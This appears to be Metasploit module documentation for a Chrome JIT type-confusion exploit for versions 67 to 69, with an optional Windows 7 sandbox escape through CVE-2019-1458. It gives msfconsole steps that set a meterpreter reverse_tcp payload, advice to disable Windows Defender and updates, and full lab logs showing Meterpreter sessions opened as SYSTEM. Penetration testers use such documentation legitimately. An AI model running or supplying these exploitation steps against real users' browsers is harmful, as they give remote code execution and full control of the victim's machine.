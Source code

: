 ## Vulnerable Application
This modules exploits a type confusion in Google Chromes JIT compiler.
The Object.create operation can be used to cause a type confusion between a PropertyArray and a NameDictionary.
The type confusion can be used to construct a arbitrary read/write memory primitive, which is
used to write shellcode into rwx region of a WebAssembly object.

This module can target the renderer process (target 0), but Google Chrome must be launched
with the --no-sandbox flag for the payload to execute successfully.

Alternatively, this module can use CVE-2019-1458 to escape the renderer sandbox (target 1). This
will only work on vulnerable versions of Windows (e.g Windows 7) and the exploit can only be triggered once.

Additionally the exploit can cause the target machine to restart when the session is terminated.
A BSOD is also likely to occur when the system is shut down or rebooted.

The module is compatible with any 64bit Google Chrome (version 67, 68 or 69), on any platform (macOS, Linux or Windows),
however the code that writes the shellcode into the rwx region (wasm_rwx_addr) may need to be modified.

**Vulnerable Application Installation Steps**

You can download a vulnerable Chrome version from this location:
[https://www.filepuma.com/download/google_chrome_64bit_69.0.3497.100-20128/](https://www.filepuma.com/download/google_chrome_64bit_69.0.3497.100-20128/)

You should ensure that application does not update itself to the latest version
(by disabling automatic updates or simply not connecting to the internet)
You may also need to disable Windows Defender.

## Verification Steps

1. Do: `use exploit/multi/browser/chrome_object_create`
1. Do: `set target [0|1]`
2. Do: `set payload windows/x64/meterpreter/reverse_tcp`
2. Do: `set LHOST [IP]`
3. Do: `set SRVHOST [IP]`
3. Do: `set URIPATH / [PATH]`
4. Do: `run`

## Options

### TARGET
```
Id  Name
--  ----
0   No sandbox escape (--no-sandbox)
1   Windows 7 (x64) sandbox escape via CVE-2019-1458
```

## Scenarios

### Windows 10 and Google Chrome 69.0.3497.100 with --no-sandbox (target 0)

Start Google Chrome without a sandbox:
`"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --no-sandbox`

```
msf5 > use exploit/multi/browser/chrome_object_create
msf5 exploit(multi/browser/chrome_object_create) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf5 exploit(multi/browser/chrome_object_create) > set URIPATH /
URIPATH => /
msf5 exploit(multi/browser/chrome_object_create) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/browser/chrome_object_create) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(multi/browser/chrome_object_create) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf5 exploit(multi/browser/chrome_object_create) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.
[*] 192.168.56.3     chrome_object_create - Sending / to Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
[*] Sending stage (206403 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49682) at 2020-02-29 14:29:06 +0800

msf5 exploit(multi/browser/chrome_object_create) > sessions 1
[*] Starting interaction with 1...

meterpreter > pwd
C:\Program Files (x86)\Google\Chrome\Application\69.0.3497.100
meterpreter >
```


### Windows 7 SP1 and Google Chrome 69.0.3497.100 with CVE-2019-1458 (target 1)

```


msf > use exploit/multi/browser/chrome_object_create
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf exploit(multi/browser/chrome_object_create) > set target 1
target => 1
msf exploit(multi/browser/chrome_object_create) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/browser/chrome_object_create) > set URIPATH /
URIPATH => /
msf exploit(multi/browser/chrome_object_create) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf exploit(multi/browser/chrome_object_create) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf exploit(multi/browser/chrome_object_create) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(multi/browser/chrome_object_create) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.
[*] 192.168.56.3     chrome_object_create - Sending / to Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.92 Safari/537.36
[*] 192.168.56.3     chrome_object_create - Sending / to Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.92 Safari/537.36
[*] 192.168.56.3     chrome_object_create - Sending /payload to Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.92 Safari/537.36
[+] 192.168.56.3     chrome_object_create - Sent stage2 exploit (20000 bytes)
[*] Sending stage (200262 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49159) at 2020-10-12 18:51:15 +0800
[*] Session ID 1 (192.168.56.1:4444 -> 192.168.56.3:49159) processing InitialAutoRunScript 'post/windows/manage/priv_migrate'
[*] Current session process is chrome.exe (2528) as: NT AUTHORITY\SYSTEM
[*] Session is already Admin and System.
[*] Will attempt to migrate to specified System level process.
[*] Trying services.exe (480)
[+] Successfully migrated to services.exe (480) as: NT AUTHORITY\SYSTEM

msf exploit(multi/browser/chrome_object_create) > sessions

Active sessions
===============

  Id  Name  Type                     Information                    Connection
  --  ----  ----                     -----------                    ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ USER-PC  192.168.56.1:4444 -> 192.168.56.3:49159 (192.168.56.3)
```
